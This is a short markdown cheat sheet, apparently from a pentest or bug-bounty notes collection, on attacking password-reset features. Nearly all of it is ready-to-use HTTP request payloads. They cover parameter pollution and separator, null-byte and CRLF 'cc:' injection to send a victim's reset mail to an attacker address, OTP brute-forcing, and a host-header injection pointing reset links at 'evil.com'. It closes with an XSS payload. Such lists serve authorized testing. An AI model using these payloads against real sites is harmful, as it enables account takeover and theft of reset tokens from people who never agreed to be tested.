 ## Forgot Password Functionality

## Introduction
Some common bugs in the forgot password / reset password functionality

## How to exploit
1. Parameter pollution
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&code=$123456$
```

3. Host header Injection
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com
```
to
```
POST /reset HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
...

email=victim@mail.com
```
And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com,hacker@mail.com
```
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%20hacker@mail.com
```
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com|hacker@mail.com
```
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim
```

6. No TLD in value of the parameter
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail
```

7. Using carbon copy
```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. If there is JSON data in body requests, add comma
```
POST /newaccount HTTP/1.1
Host: target.com
...

{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}
```

9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user

10. Try Cross-Site Scripting (XSS) in the form

Sometimes the email is reflected in the forgot password page, try to use XSS payload
```
"<svg/onload=alert(1)>"@gmail.com
```
## References
* [anugrahsr](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
* [Frooti](https://twitter.com/HackerGautam/status/1502264873287569414)